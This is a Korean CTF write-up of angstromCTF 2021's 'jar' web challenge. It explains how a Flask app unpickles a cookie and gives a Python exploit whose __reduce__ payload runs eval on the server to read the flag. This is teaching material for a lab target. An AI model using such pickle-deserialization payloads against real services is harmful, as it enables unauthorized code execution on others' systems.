

# jar

구분: 공통 문제<br>
난이도: Easy<br>
분야: Web<br>
상태: 작성 완료<br>
작성일: 2026년 09월 10일<br>
<br>

# 0. 문제 정보

# 문제 정보

| 항목 | 내용 |
| --- | --- |
| 문제명 | jar |
| 원본 대회 | angstromCTF 2021 |
| 분야 | Web · Insecure Deserialization |
| 난이도 | 초급 · 약 2/5 |
| 접속 주소 | `http://localhost:5000` |
| 플래그 형식 | `FLAG{...}` |

# 1. 문제 요약

- 사용자 입력을 직렬화하여 쿠키에 저장 후 역직렬화하여 화면에 표시
- pickle 역직렬화 과정의 취약점을 이용하여 플래그 획득

---

# 2. 문제 분석
**주요 코드**
```python
@app.route('/')
def jar():
	contents = request.cookies.get('contents')
	if contents: items = pickle.loads(base64.b64decode(contents))
	else: items = []
	return '<form method="post" action="/add" style="text-align: center; width: 100%"><input type="text" name="item" placeholder="Item"><button>Add Item</button>' + \
		''.join(f'<div style="background-color: white; font-size: 3em; position: absolute; top: {random.random()*100}%; left: {random.random()*100}%;">{item}</div>' for item in items)

@app.route('/add', methods=['POST'])
def add():
	contents = request.cookies.get('contents')
	if contents: items = pickle.loads(base64.b64decode(contents))
	else: items = []
	items.append(request.form['item'])
	response = make_response(redirect('/'))
	response.set_cookie('contents', base64.b64encode(pickle.dumps(items)).decode())
	return response
```
`/add`에서 입력받은 값(item)을 pickle을 이용하여 직렬화하여 쿠키에 저장한다.
`/` 에서는 쿠키에 저장된 값들을 다시 pickle을 통해 역직렬화하여 화면의 랜덤한 위치에 표시한다.
---
# 3. 풀이

pickle은 역직렬화 과정에서 객체의 `__reduce__` 메소드에 정의된 함수를 별도의 검증없이 실행한다. 공격자는 이를 이용해 서버측에서 원하는 함수를 실행할 수 있다.

즉, `__reduce__` 메서드에 원하는 함수를 실행하도록 정의하고 이를 포함한 클래스 객체를 직렬화했다가 다시 역직렬화하면 설정한 함수가 실행된다.

`/add`의 코드를 살펴보면, `item`은 직렬화되어 저장된 후 `/`에서 역직렬화된다. 따라서 `item`에 직렬화된 데이터를 넣는다면 총 두번 직렬화되면서 역직렬화시에도 원하는 함수가 실행되지 않고, 객체 자체를 전달하면 마찬가지로 객체 자체로 역직렬화된다.

반면 쿠기에 있는 데이터는 바로 역직렬화하고 있기 때문에 직렬화된 데이터를 넣게되면 역직렬화되며 `__reduce__` 의 함수가 실행된다.
```python
import pickle
import base64
import requests

class vul:
    def __reduce__(self):
        return (eval, ('[flag]', ))

data = {'item' : '1234'}
cookie = {'contents': base64.b64encode(pickle.dumps(vul())).decode()}
response = requests.post('http://localhost:5000/add', data=data, cookies=cookie)
print(response)
print(response.text)
```
플래그를 얻기위한 코드

`__reduce__` 메서드의 반환값은 튜플이며, 튜플의 첫 번째 요소는 callable한 객체, 두 번째 요소는 마찬가지로 튜플이며 첫 번째 요소를 호출할 때 사용할 인자이다.
이 코드에서는 역직렬화시 `eval('[flag]')` 가 실행되도록 했다.

`eval()`은 문자열 형태의 코드를 그대로 실행하여 그 결과를 반환하는 함수이다.
전역 변수 `flag`에 접근하며, 그 결과는 `items`에 저장되어 `items.append()` 가 실행되기 때문에 `eval()`의 반환값은 리스트여야 한다.

서버에 전송할 쿠키를 정의할 때, 서버에서 쿠키에 저장된 값을 base64 디코드한 후 역직렬화하고 있으므로 코드에서는 반대로 직렬화이후 base64 인코딩한다.
이때 쿠키에는 문자열만 저장될 수 있기 때문에 `decode()`를 추가한다.

최종적으로 만들어진 쿠키를 서버에 전송하면 플래그를 얻을 수 있다.
